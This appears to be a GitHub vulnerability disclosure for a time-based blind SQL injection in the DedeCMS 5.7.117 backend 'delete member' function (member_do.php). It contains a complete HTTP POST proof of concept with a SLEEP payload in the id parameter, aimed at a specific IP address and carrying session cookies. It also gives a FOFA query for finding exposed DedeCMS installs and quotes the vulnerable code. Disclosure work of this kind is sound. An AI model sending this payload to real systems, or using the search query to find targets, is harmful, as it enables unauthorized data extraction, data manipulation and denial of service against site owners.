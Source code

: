 # dede-sql
A SQL injection vulnerability exists in DedeCMS version 5.7.117. The id parameter in the backend "delete member" functionality of DedeCMS 5.7.117 is vulnerable to SQL injection.
dedecms-sql

A SQL injection vulnerability exists in DedeCMS version 5.7.117. The id parameter in the backend "delete member" functionality of DedeCMS 5.7.117 is vulnerable to SQL injection.

fofa：app="dedecms"

Vulnerability PoC (Proof of Concept)：



POST /dede/member_do.php HTTP/1.1
Host: 154.217.245.237:321
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Origin: http://154.217.245.237:321
Accept-Encoding: gzip, deflate
Referer: http://154.217.245.237:321/dede/member_do.php?dopost=delmembers
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=h9tt2vjvirml3asna1ekq04hv6; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=037964ffa0771fbf; DedeLoginTime=1747393431; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=a748faa5d92cfdc5; _csrf_name_9db0aa8a=759e15fd9a6d4676714db2b1ea3455b6; _csrf_name_9db0aa8a1BH21ANI1AGD297L1FF21LN02BGE1DNG=93e9f7a333113b48; ENV_GOBACK_URL=%2Fdede%2Fmember_main.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 147

fmdo=yes&dopost=delmembers&id=0) OR (SELECT 9712 FROM (SELECT(SLEEP(15)))cwJB) AND (3848=3848&randcode=69709&safecode=29196a09b90ce5dd1bbe7314&safecode=29196a09b90ce5dd1bbe7314&imageField1.x=42&imageField1.y=16
![image](https://github.com/user-attachments/assets/bfa264f2-5ac4-492a-ab05-607bb80230c3)




Vulnerability Type: Authentication-bypassable SQL Injection (Time-based Blind)

A SQL Injection vulnerability exists in DedeCMS version 5.7.117 in the backend script member_do.php. The id parameter used in the "delete member" (dopost=delmembers) functionality is insufficiently sanitized. Although a preg_replace is applied (preg_replace("#[^0-9]#", "", $id)), the variable is used before sanitization within SQL queries, leading to a time-based blind SQL injection.

An authenticated attacker can exploit this vulnerability by sending a crafted POST request containing malicious SQL in the id parameter, such as:

POST /dede/member_do.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
...
fmdo=yes&dopost=delmembers&id=0) OR (SELECT 9712 FROM (SELECT(SLEEP(15)))cwJB) AND (3848=3848&randcode=69709&safecode=29196a09b90ce5dd1bbe7314

The SQL injection allows arbitrary query execution in the database context, enabling data extraction or service disruption via sleep-based attacks. The vulnerability resides in this code snippet:

$row = $dsql->GetOne("SELECT * FROM `#@__member` WHERE mid='$id' LIMIT 1");
...
$rs = $dsql->ExecuteNoneQuery2("DELETE FROM `#@__member` WHERE mid='$id' LIMIT 1");



Impact:
This vulnerability allows authenticated attackers to execute arbitrary SQL queries in the backend, leading to information disclosure, data manipulation, or denial of service.
![image](https://github.com/user-attachments/assets/38e34468-9ddf-4e60-a9b2-df4912a2e7ec)
<img width="553" alt="image" src="https://github.com/user-attachments/assets/81360231-cd23-4192-a412-9dac7f959eca" />


